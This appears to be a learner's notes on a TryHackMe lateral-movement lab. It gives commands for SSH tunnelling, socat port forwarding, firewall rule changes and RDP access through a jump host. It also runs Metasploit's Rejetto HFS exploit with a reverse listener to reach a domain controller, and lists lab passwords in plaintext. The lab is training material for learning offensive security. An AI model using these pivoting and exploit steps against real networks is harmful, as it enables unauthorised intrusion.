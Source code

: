 - 3 is the ID
- We get a new session
---------------------------------------------------------------------------------
- Need to create a SSH tunnel so will create a user for it
```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser # s0XNbTecE5WARK9ddz5usR
```

- We need to access RDP on THMIIS but it can only be accessed from THMJMP2
- We need to add firewall rules
```bash
netsh advfirewall firewall add rule name="Open Port 9001" dir=in action=allow protocol=TCP localport=9001
```

- We can use socat to make a port forwarding connection
```bash
socat TCP4-LISTEN:9001,fork TCP4:10.200.71.201:3389
```

- Now we can access RDP on THMIIS on port 9001 at THMJMP2
```bash
xfreerdp /v:THMJMP2.za.tryhackme.com:9001 /u:t1_thomas.moore /p:MyPazzw3rd2020
```

- Got in
- We have a vulnerable Rejetto HFS running on THMDC
- It can only be accessed from THMJMP2
- But THMDC only allows outbound connections from machines in local network
- And the exploit needs to have a webserver for the exploit to work but we cant run it on our kali machine because it cant connect to THMDC
- We need to do many port forwards here

```bash
ssh tunneluser@10.50.65.97 -R 8888:thmdc.za.tryhackme.com:80 -L *:1233:127.0.0.1:1233 -L *:5566:127.0.0.1:5566 -N
```

- Now we are getting out THMDC port 80 over to our port 8888 and our ports 1233 and 5566 are being sent to THMJMP2
- Used `msfconsole` with these commands
```bash
use windows/http/rejetto_hfs_exec
set lhost thmjmp2.za.tryhackme.com
set ReverseListenerBindAddress 127.0.0.1
set lport 5566

set srvhost 127.0.0.1
set srvport 1233

set rhosts 127.0.0.1
set rport 8888
run
```

- Got in to THMDC!